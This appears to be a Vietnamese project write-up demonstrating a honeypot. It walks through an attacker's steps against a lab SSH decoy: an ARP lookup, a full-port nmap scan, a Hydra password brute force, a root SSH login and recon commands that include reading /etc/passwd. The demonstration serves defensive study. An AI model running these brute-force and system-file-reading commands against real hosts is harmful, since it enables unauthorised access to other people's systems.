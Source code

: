 **Các bước tấn công:**

**1. Reconnaissance - Thu thập thông tin**

![Hacker quét mạng](/images/projects/honeypot/demo1-scan-network.png)
*Hình 6: Hacker sử dụng arp -n để quét mạng*
```bash
# Hacker chạy:
arp -n

# Kết quả:
192.168.159.141 - 00:0c:29:21:35:27 (Honeypot)
```

**2. Service Scanning**

![Quét dịch vụ](/images/projects/honeypot/demo1-scan-services.png)
*Hình 7: Nmap quét dịch vụ SSH trên cổng 2222*
```bash
# Hacker chạy:
nmap -sV -p- 192.168.159.100-150

# Phát hiện:
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 6.0p1
```

**3. Brute Force Attack**

![Tấn công Brute Force](/images/projects/honeypot/demo1-bruteforce.png)
*Hình 8: Hydra tấn công SSH bằng wordlist*
```bash
# Hacker chạy:
hydra -L users.txt -P passwords.txt ssh://192.168.159.141:2222 -t 4

# Kết quả:
[2222][ssh] host: 192.168.159.141   login: root   password: password123
```

**4. SSH Login - Xâm nhập thành công**

![Xâm nhập SSH](/images/projects/honeypot/demo1-ssh-login.png)
*Hình 9: Hacker đăng nhập SSH thành công*
```bash
# Hacker đăng nhập:
ssh -o KexAlgorithms=diffie-hellman-group14-sha1 root@192.168.159.141 -p 2222

# Đã vào hệ thống (giả):
root@svr04:~#
```

**5. Information Gathering**

![Khai thác thông tin](/images/projects/honeypot/demo1-recon.png)
*Hình 10: Hacker thực hiện các lệnh thăm dò*
```bash
# Hacker chạy:
whoami           # → root
id               # → uid=0(root) gid=0(root)
uname -a         # → Linux svr04 3.2.0-4-amd64
cat /etc/passwd  # → Danh sách users (fake)
```

